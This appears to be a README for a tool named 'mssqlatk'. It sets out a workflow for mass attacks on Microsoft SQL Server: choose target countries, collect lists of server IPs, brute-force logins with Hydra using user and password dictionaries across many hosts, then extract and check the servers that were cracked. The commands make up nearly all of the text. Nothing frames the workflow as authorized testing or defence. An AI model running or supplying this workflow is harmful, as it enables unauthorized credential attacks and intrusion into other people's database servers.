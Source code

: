 # mssqlatk

### Setup your own api_key
00mssqltopcountry.py(optional)&01mssqlcollector.py

### Top 50 country
c:\mssql\> 00mssqltopcountry.py \> mssqltop50.txt

### Collector ip list
c:\mssql\> 01mssqlcollector.py 1 30

### Hydra Attack
root@kali2016:~/mssql# hydra -L sqluser.dic -P sqlpass.dic -t 30 -M ip.txt mssql

### Extractor mssql list
c:\mssql\> 02mssqlextractor.py iprst.txt \> mssql.txt

### Check mssql
c:\mssql\> 03mssqlchecker.py mssql.txt \> mssqlstatus.txt

